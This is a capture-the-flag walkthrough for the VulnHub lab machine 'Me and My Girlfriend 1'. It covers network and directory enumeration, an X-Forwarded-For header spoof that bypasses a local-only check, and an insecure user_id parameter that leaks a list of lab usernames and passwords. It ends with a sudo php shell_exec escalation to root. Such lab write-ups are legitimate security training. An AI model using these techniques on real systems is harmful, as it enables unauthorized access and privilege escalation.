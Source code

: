 # Walkthrough: [Me and My Girlfriend 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)
## Security Report: [Document link](https://github.com/christosavramis/Vunhub-Solotions/blob/master/Me%20and%20My%20Girlfriend%201/Me%20and%20my%20Girlfriend%20Security%20Report.pdf)
## Video Guide: [Youtube link](https://www.youtube.com/watch?v=clennMZ4rco)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Privilege Escelation](#privilege-escelation)

## Enumeration 
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
	
- VM info: `nmap -A -T4 -v 192.168.0.14`

	* <pre>
	  22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	  80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	  </pre>
	  
- web Server Directory: `dirb -w http://192.168.0.14`

	* <pre>
	  http://192.168.0.14/index.php
	  http://192.168.0.14/misc/process.php
	  http://192.168.0.14/config/config.php
	  http://192.168.0.14/heyhoo.txt
	  </pre>

## Penetration
- *index.php* requires local machine access
- Header capture/info with **Fiddler**
- Customize header with a browser extension(simply add `X-Forwarded-For: 0.0.0.0`)
- Local access granted 
- Register page: http://192.168.0.14/index.php?page=register
- Login page: http://192.168.0.14/index.php?page=login
- Profile page: http://192.168.0.14/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- *user_id* allows to get all the name,uname,pass values 
- uname:pass list 
	* <pre>
	  1.eweuhtandingan:skuyatuh
	  2.aingmaung:qwerty!!!
	  3.sundatea:indONEsia
	  4.sedihaingmah:cedihhihihi
	  5.alice:4lic3  <--------------- Alice's credentials
	  6.abdikasepak:dorrrrr
	  </pre>
- `ssh 192.168.1.13 -l alice`
- Login in and capture **first flag**
		  
## Privilege Escelation
- `sudo -l`
	* Alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- Root access granted
- `cd /root && cat flag*` and capture the **second flag**





